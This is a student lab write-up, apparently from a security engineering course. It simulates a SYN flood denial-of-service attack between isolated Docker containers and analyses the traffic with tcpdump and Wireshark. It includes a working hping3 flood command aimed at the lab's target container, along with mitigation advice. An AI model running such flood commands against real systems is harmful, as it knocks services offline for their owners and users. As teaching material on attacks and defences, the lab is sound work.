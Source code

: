 # SYN Flood Attack Simulation with Docker: Lab Setup and Traffic Analysis

**Hands-on experience with SYN flood attacks and network traffic analysis**  
*Erwin Bruno - 2025*  
*Secure Network Engineering (CYBR-508-02P)*

## Objective

This lab provides hands-on experience with SYN flood attacks, a common form of Denial of Service (DoS). It guides you through building a Docker-based testing environment and developing skills in network traffic analysis using tcpdump and Wireshark.

## Prerequisites

- Docker Desktop installed and running
- Wireshark installed on host system
- Basic understanding of TCP/IP protocols
- Command line familiarity (bash/terminal)
- Administrative privileges for Docker operations
- Windows/Linux/macOS host system

## Lab Setup

### Create Docker Network
Create a custom bridge network for isolated testing:
```bash
docker network create --driver bridge syn_flood_network
```

### Deploy Target Container
Create NGINX target with resource constraints:
```bash
docker run -dit --name target --network syn_flood_network --cpus="0.2" --memory="256m" --cap-add=NET_ADMIN nginx
```

### Configure Target Environment
Enter the target container:
```bash
docker exec -it target bash
```

Update and install required tools:
```bash
apt update && apt install iproute2 -y
```

Apply bandwidth throttling:
```bash
tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
```

Prepare capture directory and install tcpdump:
```bash
mkdir -p /mnt/data
apt update && apt install tcpdump -y
```

### Deploy Attacker Container
Create and enter the attacker container:
```bash
docker run -it --name attacker --network syn_flood_network ubuntu /bin/bash
```

Install attack tools:
```bash
apt update && apt install hping3 -y
```

## Attack Execution

### Launch SYN Flood Attack
From inside the attacker container, execute the flood:
```bash
hping3 --flood --syn --destport 80 target
```

### Packet Capture (Target Container)
In a separate terminal, capture SYN packets on target:
```bash
tcpdump -i eth0 'tcp[tcpflags] == tcp-syn' and not port 22 -w /mnt/data/syn_flood_capture.pcap
```

Stop capture with `Ctrl+C` when sufficient data is collected.

### Traffic Analysis
Copy PCAP file to host system (replace `{Username}` with actual username):
```bash
docker cp target:/mnt/data/syn_flood_capture.pcap C:\Users\{Username}\Downloads
```

Open the captured file with Wireshark for detailed analysis.

## Cleanup

Remove all lab components:
```bash
docker container stop target attacker
docker container rm target attacker
docker network rm syn_flood_network
```

## Results and Observations

The SYN flood attack successfully demonstrated service disruption through connection table exhaustion. Wireshark analysis revealed continuous SYN packet transmission with no corresponding SYN-ACK responses, confirming the attack's effectiveness.

### Key Findings
* Connection attempts from attacker were not properly completed
* TCP three-way handshake process was disrupted
* Server resources were consumed managing half-open connections
* Legitimate traffic would be impacted due to connection table exhaustion
* Continuous SYN packets observed without proper connection establishment

## Real-World Implications

### Network Infrastructure Threats
SYN flood attacks pose significant threats because they require minimal attacker resources while overwhelming servers with limited connection handling capacity. They are difficult to distinguish from legitimate high-traffic periods initially.

### Organizations at Risk
* Small businesses with limited server resources
* IoT device manufacturers with minimal security implementations
* Legacy systems without modern TCP stack protections
* Services without proper rate limiting or DDoS protection

### Business Impact
Successful SYN flood attacks can result in service unavailability during peak business hours, revenue loss for e-commerce platforms, customer dissatisfaction and reputation damage, and increased operational costs for incident response.

## Defense Strategies

### Technical Mitigations
* **SYN Cookies**: Enable SYN cookie functionality to handle connection state without memory allocation
* **Rate Limiting**: Implement connection rate limits per source IP
* **Timeout Reduction**: Decrease SYN_RECV timeout values to free resources faster
* **iptables Rules**: Configure firewall rules to detect and block flood patterns

### Infrastructure Solutions
* **Load Balancers**: Deploy reverse proxies with DDoS protection capabilities
* **Cloud Security**: Utilize cloud-based DDoS mitigation services
* **Network Monitoring**: Implement real-time traffic analysis and alerting
* **Resource Scaling**: Design systems with auto-scaling capabilities

## Educational Value

This lab demonstrates:
* **Attack Methodology**: Understanding how SYN flood attacks exploit TCP protocol weaknesses
* **Traffic Analysis**: Developing skills in packet capture and analysis using industry-standard tools
* **Containerization**: Utilizing Docker for safe, isolated security testing environments
* **Network Security**: Recognizing DoS attack patterns and their impact on network infrastructure
* **Defensive Thinking**: Understanding attack vectors to implement appropriate countermeasures

## Disclaimer

⚠️ **For Educational Purposes Only**  
This lab is designed for educational and authorized testing environments only. SYN flood attacks are illegal when performed against systems without explicit permission. Always ensure you have proper authorization before conducting any security testing. Use this knowledge responsibly to improve defensive security postures.
